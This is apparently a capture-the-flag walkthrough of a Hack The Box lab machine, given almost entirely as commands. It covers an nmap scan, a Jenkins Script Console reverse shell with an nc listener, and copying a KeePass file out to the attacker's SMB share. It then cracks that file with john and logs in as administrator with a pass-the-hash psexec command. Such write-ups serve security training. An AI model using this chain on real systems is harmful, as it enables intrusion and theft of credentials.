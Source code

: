 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.63
```
![image](https://github.com/user-attachments/assets/d6384270-9642-4d95-8b0d-c23bf27eaf3a)

```
10.10.10.63
Input '
```
![image](https://github.com/user-attachments/assets/a59fd11c-2e7e-4193-97be-a5a9b13ed805)

![image](https://github.com/user-attachments/assets/7e80e98a-f388-475c-8b61-e671824c2fb0)

```
http://10.10.10.63:50000/
Jetty 9.4.z-SNAPSHOT
```
![image](https://github.com/user-attachments/assets/edbcca3b-a396-4ed8-bd71-7b0cb86b4607)

```
http://10.10.10.63:50000/askjeeves/
```
![image](https://github.com/user-attachments/assets/08705629-c3d3-46d2-ac60-839ceef69656)


```
Script Console
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76#file-revsh-groovy
```
![image](https://github.com/user-attachments/assets/35f56ef6-df64-4a95-8847-53854f95cf57)

```
nc -lnvp 1234
```
![image](https://github.com/user-attachments/assets/36aa2208-bd91-4886-b4a9-834abddf346a)

![image](https://github.com/user-attachments/assets/b067c379-eaa2-43f3-bdd2-a654d79c9eb1)

```
C:\Users\kohsuke\Documents - CEH.kdbx
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.6\s /u:df df
copy CEH.kdbx \\10.10.14.6\s\CEH.kdbx
```
![image](https://github.com/user-attachments/assets/c80afcce-8d01-4a0f-b4b9-7b9881b5c8d7)

![image](https://github.com/user-attachments/assets/4450ba19-f687-4b53-a5b6-2a13c816c165)

![image](https://github.com/user-attachments/assets/61661a41-6c09-4cf4-9cef-62c3889a1d1c)

```
keepass2john CEH.kdbx > hash.txt
john hash.txt -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/59eedc8b-b643-435e-bcec-24efd25f5d0a)

![image](https://github.com/user-attachments/assets/7c1bc45a-b0a3-4b41-b509-95977780944c)

```
keepassxc
```
![image](https://github.com/user-attachments/assets/3f1639bd-593e-4a72-a92b-1b771d06e14b)

```
Backup stuff
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
```
![image](https://github.com/user-attachments/assets/afbdc1a8-095d-4e29-ac10-53b2aa0f5635)

![image](https://github.com/user-attachments/assets/87035c2e-6539-461d-bbfc-34a28489f536)

```
dir /r
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
![image](https://github.com/user-attachments/assets/879b5159-06d8-4205-b90e-1d5aa938fd07)
